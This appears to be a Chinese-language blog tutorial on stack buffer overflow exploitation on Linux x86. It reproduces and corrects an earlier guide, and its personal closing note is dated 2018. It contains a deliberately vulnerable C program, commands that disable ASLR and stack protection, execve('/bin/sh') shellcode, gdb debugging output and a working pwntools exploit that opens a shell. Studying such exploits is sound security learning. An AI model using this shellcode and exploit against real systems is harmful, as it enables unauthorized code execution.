

#一步一步学习ROP Linux_x86
这篇文章是在复现蒸米写的教程之后 对里面动手的部分进行纠正，详细解释请看蒸米的原文。

##0x01 Control Flow Hijack 程序流劫持

首先来看一下这个有缓冲区溢出的程序：

	#!c
	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>

	void vulnerable_function() {
    	char buf[128];
    	read(STDIN_FILENO, buf, 256);
	}

	int main(int argc, char** argv) {
    	vulnerable_function();
    	write(STDOUT_FILENO, "Hello, World\n", 13);
	}
	
用这个命令编译程序：

	gcc -fno-stack-protector -z execstack -o level1 level1.c
	
关闭ASLR
	
	sudo -s 
	echo 0 > /proc/sys/kernel/randomize_va_space
	exit

以上关闭系统的保护机制。

###第一步
计算出我们需要覆盖多少个字节，才能覆盖到返回地址（过程略）。

同时也能知道地址出错的位置。

计算结果为140个字节。

通过以上结论，我们可以计算出 buf的起始地址，也就是一会儿我们要将shellcode的放置的起始地址。

###第二步
接下来，我们需要一段shellcode（关于shellcode的生成的方法，可以参考长亭系统安全的ppt第三节）。

	#!c
	# execve ("/bin/sh") 
	# xor ecx, ecx
	# mul ecx
	# push ecx
	# push 0x68732f2f   ;; hs//
	# push 0x6e69622f   ;; nib/
	# mov ebx, esp
	# mov al, 11
	# int 0x80

	shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
	shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
	shellcode += "\x0b\xcd\x80

这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

###第三步
<mark>这里也是蒸米 原文无法复现的一个地方。

蒸米的原文是这样写的：

开启core dump:

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```
开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为<mark>0xbffff290

<mark>实际上并不是这样的，我们来在自己的电脑上操作一下



由上图可知，buf的起始地址是 `0xbffff640` <mark>实际上并不是的，请看第四步

###第四步


最终我们得到本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./rop') 
ret = 0xbffff640

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
```
执行：


eeeeee,竟然成功了！！！！呃呃呃呃，但是还是想说一下调试。


###调试脚本
**我们来进行调试，也是本文最最重要的部分，如何调试你的脚本**

**首先**
在发送payload之前添加一个`raw_input()` 


执行脚本


我们在右上角运行sc.py 取得进程号，在左边的窗口打开gdb，然后 `attach 进程号` 

此时，rop就停住了（因为没有给他发送输入）

然后我们在右上输入一个字符，让程序继续

这样在左边 再按c让程序继续


##结束语
今天是2018年5月9日 今天晚上园神收到了来自360某实验室的实习offer 非常为她感到高兴。这也给我在漫长的菜鸟阶段一点希望，我会继续努力下去的。